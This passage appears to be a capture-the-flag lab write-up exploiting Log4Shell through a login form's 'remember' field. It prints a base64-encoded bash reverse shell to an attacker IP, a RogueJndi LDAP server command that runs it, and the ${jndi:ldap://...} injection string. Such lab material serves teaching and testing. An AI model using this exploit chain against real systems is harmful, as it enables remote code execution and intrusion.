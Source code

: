 And we can start the exploit 

## 3. **Delivery**

We go to encode in Base64 the code that we want to inject in :

```BASH
echo 'bash -c bash -i >&/dev/tcp/10.10.15.168/4444 0>&1' | base64
```

And copy the output :

```BASE64
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTY4LzQ0NDQgMD4mMQo=
```


Go create an #LDAP server on our machine :

```BASH
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTY4LzQ0NDQgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.15.168"
```

And note one of the #LDAP link.
## 4. **Exploitation**

Open #burpsuite and the browser.
Go to the login page and try to log :

![[Pasted image 20250123204510.png]]

![[Pasted image 20250123204537.png]]

In "remeber" past one of the #LDAP link with a `$` like this :
```LINK
"${ldap://10.10.15.168:1389/o=websphere2}"
```

![[Pasted image 20250123205715.png]]

And forward the request.
But nothing work and we have an error.

So we change the link to :

```BASH
"${jndi:ldap://10.10.15.168:1389/o=tomcat}"
```

And it's work we have our shell.

For us we prefer to have a stable shell so we wrote this :

```BASH
script /dev/null -c bash
```

